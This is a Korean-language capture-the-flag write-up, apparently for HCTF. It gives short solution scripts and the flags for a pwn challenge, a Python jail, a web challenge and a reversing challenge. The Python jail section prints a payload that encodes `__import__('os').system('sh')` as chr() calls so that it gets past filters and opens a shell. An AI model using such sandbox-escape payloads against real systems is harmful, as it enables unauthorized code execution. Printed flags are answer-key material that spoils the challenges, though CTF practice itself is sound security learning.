 ## NonPrintable

입력 값하고 `\xde\xed\xbe\xef` 이 같으면 플래그 파일을 읽을 수 있다.

```python
from pwn import *

p = remote('prob.hctf.icewall.org',10102)
p.sendlineafter('>> ','\xde\xed\xbe\xef')
p.interactive()
```

**FLAG : `HCTF{beef steak is delicious}`**

<br />

## Python Jail

`python -c` 로 실행시켜주는데 `exec` , `chr` 이 안 막혀있어서 이를 이용해서 풀었다. 아래 페이로드 이용해서 풀었다.

```python
a="__import__('os').system('sh')"
payload = 'exec(' + ''.join('chr('+str(ord(a[i]))+')+' for i in range(len(a)))[:-1] + ')'
```

![](https://user-images.githubusercontent.com/32904385/69047436-7414ed00-0a3e-11ea-99df-5108fe2c5772.png)

**FLAG : `HCTF{getattr_is_very~~~~very~~~~nice!!}`**

<br />

## Take It

힌트가 있길래 딱보면 `robots.txt` 이용해서 푸는거구나 생각하고 들어갔는데 HCTF-FLAG.txt이 있길래 `http://www.nowtakeit.com/HCTF-FLAG.txt` 들어갔는데 플래그가 있었다.

![](https://user-images.githubusercontent.com/32904385/69047552-b9d1b580-0a3e-11ea-8a5c-195d4cda94d1.png)

**FLAG : `HCTF{Congratulations_10000_Points_for_First_Solver!!}`**

<br />

# Reversing

매우 복잡한 그래프이다. 자세히 보면 인덱스의 글자가 맞는지 아닌지 비교해주는 분기들이다. 인덱스의 값들을 잘 맞추면 된다.

![](https://user-images.githubusercontent.com/32904385/69048335-960f6f00-0a40-11ea-8eaf-ef5b4a6a89e8.png)

```python
a=[0]*46
a[23]=97;a[19]=74;a[9]=95;a[22]=95;a[6]=118;a[1]=67;a[26]=95;a[7]=101;a[3]=70
a[2]=84;a[8]=110;a[17]=101;a[44]=116;a[32]=97;a[24]=110;a[43]=105;a[14]=104;a[12]=99
a[10]=103;a[28]=111;a[35]=105;a[29]=117;a[31]=99;a[14]=104;a[12]=99;a[10]=103
a[38]=112;a[39]=101;a[34]=95;a[37]=115;a[25]=100;a[18]=95;a[45]=125;a[21]=84;a[40]=99
a[11]=99;a[16]=118;a[30]=95;a[41]=116;a[13]=95;a[4]=123;a[42]=95;a[5]=101
a[20]=73;a[15]=97;a[0]=72;a[33]=110;a[27]=121;a[36]=110
print ''.join(chr(i) for i in a)
```
